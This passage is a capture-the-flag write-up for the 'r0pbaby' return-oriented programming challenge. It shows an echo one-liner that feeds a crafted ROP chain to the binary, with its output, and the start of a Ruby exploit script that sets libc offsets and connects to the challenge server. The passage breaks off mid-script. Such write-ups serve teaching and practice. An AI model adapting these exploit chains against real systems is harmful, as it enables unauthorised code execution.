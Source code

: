 <a name='update2'></a>Unfortunately, you can't return into system(). I couldn't figure out why, but on Twitter <a href='https://www.twitter.com/jkadijk'>Jan Kadijk</a> said that it's likely because system() ends when it sees the end of file (EOF) marker, which makes perfect sense.

So in the interest of proving that this actually returns to a function, we'll call printf (0x00007FFFF7892F10) instead:

<pre>
$ <strong>echo -ne '3\n32\nAAAAAAAA\xc9\xb2\x92\xf7\xff\x7f\x00\x00\x10\x2f\x89\xf7\xff\x7f\x00\x00\x7c\x30\x9a\xf7\xff\x7f\x00\x00\n' | ./r0pbaby</strong>

Welcome to an easy Return Oriented Programming challenge...
Menu:
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: Enter bytes to send (max 1024): 1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: Bad choice.
/bin/sh
</pre>

It prints out its first parameter - "/bin/sh" - proving that printf() was called and therefore the return chain works!

<h2>The exploit</h2>

Here's the full exploit in Ruby. If you want to run this against your own system, you'll have to calculate the offset of the "/bin/sh" string and the handy-dandy gadget first! Just find them in IDA or objdump or whatever and subtract the address of system() from them.

<pre id='vimCodeElement'>
<span class="PreProc">#!/usr/bin/ruby</span>

<span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">socket</span><span class="Special">'</span>

<span class="Type">SH_OFFSET_REAL</span> = <span class="Constant">0x13669b</span>
<span class="Type">SH_OFFSET_MINE</span> = <span class="Constant">0x11f71c</span>

<span class="Type">GADGET_OFFSET_REAL</span> = <span class="Constant">0xb3e39</span>
<span class="Type">GADGET_OFFSET_MINE</span> = <span class="Constant">0xa7969</span>

<span class="Comment">#HOST = &quot;localhost&quot;</span>
<span class="Type">HOST</span> = <span class="Special">&quot;</span><span class="Constant">r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me</span><span class="Special">&quot;</span>

<span class="Type">PORT</span> = <span class="Constant">10436</span>

s = <span class="Type">TCPSocket</span>.new(<span class="Type">HOST</span>, <span class="Type">PORT</span>)

<span class="Comment"># Receive until the string matches the regex, then delete everything</span>
<span class="Comment"># up to the regex</span>
<span class="rubyDefine">def</span> <span class="Identifier">recv_until</span>(s, regex)
  buffer = <span class="Special">&quot;&quot;</span>
